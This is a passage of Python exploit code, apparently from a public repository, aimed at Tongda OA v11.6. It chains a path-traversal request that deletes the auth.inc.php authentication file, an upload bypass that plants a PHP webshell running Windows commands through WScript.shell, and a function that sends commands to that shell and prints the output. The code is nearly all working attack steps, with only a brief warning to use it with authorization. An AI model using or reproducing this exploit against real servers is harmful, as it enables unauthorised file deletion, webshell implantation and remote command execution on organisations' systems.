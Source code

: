 ```python
    try:
        check_url_response  = requests.get(url = check_url)
        if check_url_response.status_code == 200:
            print("\033[32m[o] 存在 /module/appbuilder/assets/print.php 可能含有通达OA v11.6 任意文件删除&RCE漏洞\033[0m")
            input("\033[32m[o] 此漏洞会对真实环境造成影响，请在授权的情况下利用此漏洞，按下任意键继续..... \033[0m")
        else:
            print("\033[31m[x] 不存在 /module/appbuilder/assets/print.php 漏洞利用失败 \033[0m")
            sys.exit(0)
    except Exception as e:
            print("\033[31m[x] 请求失败，{} \033[0m".format(e))
            sys.exit(0)

def POC_2(target_url):
    unlink_url = target_url + "/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"
    try:
        unlink_response = requests.get(url = unlink_url)
        if unlink_response.status_code == 200:
            print("\033[32m[o] 成功删除校验文件 auth.inc.php \033[0m")
        else:
            print("\033[31m[x] 删除校验文件 auth.inc.php 失败 \033[0m")
            sys.exit(0)
    except Exception as e:
            print("\033[31m[x] 请求失败，{} \033[0m".format(e))
            sys.exit(0)

def POC_3(target_url, payload_php):
    """
      (绕过的webshell)
      <?php
      $command=$_GET['test'];
      $wsh = new COM('WScript.shell');
      $exec = $wsh->exec("cmd /c ".$command);
      $stdout = $exec->StdOut();
      $stroutput = $stdout->ReadAll();
      echo $stroutput;
      ?>
    """
    vuln_url = target_url + "/general/data_center/utils/upload.php?action=upload&filetype=test&repkid=/.<>./.<>./.<>./"
    files = {'FILE1': ('test.php', payload_php)}
    try:
        vuln_response = requests.post(url = vuln_url,files=files)
        if vuln_response.status_code == 200:
            print("\033[32m[o] 成功写入webshell文件: _test.php \033[0m")
            print("\033[32m[o] webshell地址为: {}/_test.php \033[0m".format(target_url))
        else:
            print("\033[31m[x] 写入webshell文件失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败，{} \033[0m".format(e))
        sys.exit(0)

def POC_4(target_url, cmd):
    cmd_url = target_url + "/_test.php?test={}".format(cmd)
    try:
        cmd_response = requests.get(url = cmd_url)
        if cmd_response.status_code == 200:
            print("\033[32m[o] 正在执行命令: {} \033[0m".format(cmd_url))
            print("\033[32m[o] 响应为: \n{} \033[0m".format(cmd_response.text))
        else:
            print("\033[31m[x] 命令执行失败 \033[0m")
```